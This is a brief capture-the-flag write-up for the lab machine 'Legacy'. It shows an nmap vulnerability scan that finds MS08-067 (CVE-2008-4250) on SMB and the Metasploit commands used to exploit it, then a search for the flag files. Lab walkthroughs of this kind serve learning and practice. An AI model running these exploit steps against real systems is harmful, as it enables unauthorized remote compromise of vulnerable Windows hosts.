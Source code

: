 # 🦵 Legacy

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

We start with a quick scan ->

i have these ports:&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

```
nmap -p 445 --script vuln  10.129.29.238
```

**--script vuln:** Checks for specific known vulnerabilities and generally only report results if they are found

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>CVE-2008-4250</p></figcaption></figure>

i run msfconsole ->

```
search ms08-067
```

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

```
use 0
options
set lhost 10.10.14.166
set rhosts 10.129.29.238
exploit
```

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

there is a lot of file so let's look for the file we're interested in :

```bash
search -f user.txt
c:\Documents and Settings\john\Desktop\user.txt
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

and for some reason the root file was not protected by any privesc...

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (700).png" alt=""><figcaption></figcaption></figure>
